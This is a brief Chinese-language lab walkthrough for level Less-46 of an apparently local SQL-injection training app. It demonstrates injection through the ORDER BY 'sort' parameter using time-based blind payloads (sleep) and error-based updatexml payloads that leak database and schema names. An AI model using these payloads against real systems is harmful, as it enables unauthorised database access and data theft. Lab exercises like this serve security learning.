

# Less-46
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1/sqli/Less-46/?sort=3   sort的值我们可以设置1,2,3均可！
2. http://127.0.0.1/sqli/Less-46/?sort=3 desc  此时结果以第三列的降序进行排列
3. http://127.0.0.1/sqli/Less-46/?sort=3 asc    此时的结果以第三列的升序进行排列，说明在sort位置存在注入漏洞
4.  http://127.0.0.1/sqli/Less-46/?sort=left(database() ,1   ) 这里面显示没有什么反应，那么我们尝试使用延时注入或者是报错注入来尝试一下
法一： 延时注入
1. http://127.0.0.1/sqli/Less-46/?sort=3 and  if((  length(database())=1  ),1,sleep(5)) --+ 判断数据库长度
2. http://127.0.0.1/sqli/Less-46/?sort=3 and  if ( left( (select schema_name from information_schema.schemata limit 0,1) , 1) > ‘a’     ,1,   sleep(5)) --+ 判断数据库中第一个库的第一位的值是否大于a
法二： 报错注入
1. http://127.0.0.1/sqli/Less-46/?sort=3 and  updatexml( 1, concat( 0x7e,  database()) ,  1) --+ 爆出当前使用数据库名称
2. http://127.0.0.1/sqli/Less-46/?sort=3 and  updatexml(1, concat(0x7e,  (  select schema_name from information_schema.schemata limit 0,1)   )       ,1) --+ 爆出数据库中的第一个值，可以使用遍历的思想去继续操作下去
当然，本关中肯定还有其他的方法和思想，大家可以自行进行搜寻和尝试。我这个只不过是最简单的一种